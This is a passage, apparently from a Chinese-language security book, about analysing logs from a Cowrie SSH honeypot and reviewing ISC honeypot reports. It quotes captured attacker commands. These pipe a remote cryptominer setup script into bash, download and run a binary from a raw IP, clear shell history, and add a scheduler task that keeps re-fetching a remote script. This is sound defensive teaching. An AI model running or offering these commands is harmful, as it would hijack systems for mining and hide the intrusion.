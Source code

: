 请注意，第一个攻击者在最后发送了一个 ASCII 字符串，以十六进制表示为`'\x63\x6F\x6E\x6E\x65\x63\x74\x65\x64'`，这意味着"connected"。这可能是为了规避入侵防御系统。Base64 编码是另一种常见的规避技术，在蜜罐日志中也会看到。

第二个攻击者有一系列`rm`命令，用于在完成目标后清理他们的各种工作文件。

请注意，您在 SSH 日志中可能会看到的另一件事是语法错误。通常这些错误来自未经充分测试的脚本，但一旦会话更频繁地建立，您将看到真正的人在键盘上操作，因此您将从任何错误中得到一些关于他们的技能水平（或者他们所在时区的深夜程度）的指示。

在接下来的例子中，攻击者试图下载加密货币挖矿应用程序，将他们新受损的 Linux 主机添加到他们的加密货币挖矿“农场”中：

```
2021-07-19T02:31:55.439658Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,5,141.98.10.56] executing command "b'curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 4ANkemPGmjeLPgLfyYupu2B8Hed2dy8i6XYF7ehqRsSfbvZM2Pz7 bDeaZXVQAs533a7MUnhB6pUREVDj2LgWj1AQSGo2HRj; wget http://142.93.105.28/a; chmod 777 a; ./a; rm -rfa ; history -c'"
2021-07-19T04:28:49.356339Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,9,142.93.97.193] executing command "b'curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 4ANkemPGmjeLPgLfyYupu2B8Hed2dy8i6XYF7ehqRsSfbvZM2Pz7 bDeaZXVQAs533a7MUnhB6pUREVDj2LgWj1AQSGo2HRj; wget http://142.93.105.28/a; chmod 777 a; ./a; rm -rfa; history -c'"
```

请注意，他们都在他们的命令中添加了一个`history –c`附录，用于清除当前会话的交互式历史记录，以隐藏攻击者的活动。

在这个例子中，攻击者试图将恶意软件下载添加到 Linux 调度程序 cron 中，以便他们可以保持持久性 - 如果他们的恶意软件被终止或删除，它将在下一个计划任务到来时重新下载并重新安装：

```
2021-07-19T04:20:03.262591Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,4,103.203.177.10] executing command "b'/system scheduler add name="U6" interval=10m on-event="/tool fetch url=http://bestony.club/poll/24eff58f-9d8a-43ae-96de-71c95d9e6805 mode=http dst-path=7wmp0b4s.rsc\\r\\n/import 7wmp0b4s.rsc" policy=api,ftp,local,password,policy,read,reboot,sensitive,sniff,ssh,telnet,test,web,winbox,write'"
```

攻击者试图下载的各种文件都被收集在`/srv/cowrie/var/lib/cowrie/downloads`目录中。

您可以自定义 Cowrie 诱饵 - 您可能会进行的一些常见更改位于以下位置：

![](img/B16336_14_Table_04.jpg)

还有什么？只需在线检查您的 ISC 账户 - 您可能会感兴趣的链接位于**我的账户**下：

![图 14.14 – ISC 诱饵 – 在线报告](img/B16336_14_014.jpg)

图 14.14 – ISC 诱饵 – 在线报告

让我们稍微详细讨论一下这些选项：

![](img/B16336_14_Table_05.jpg)

在线，针对您的诱饵的 SSH 活动在 ISC 门户网站下的**我的 SSH 报告**中进行了总结：

![图 14.15 – SSH 诱饵报告](img/B16336_14_015.jpg)

图 14.15 – SSH 诱饵报告

目前，SSH 汇总数据的主要报告涉及使用的用户 ID 和密码：
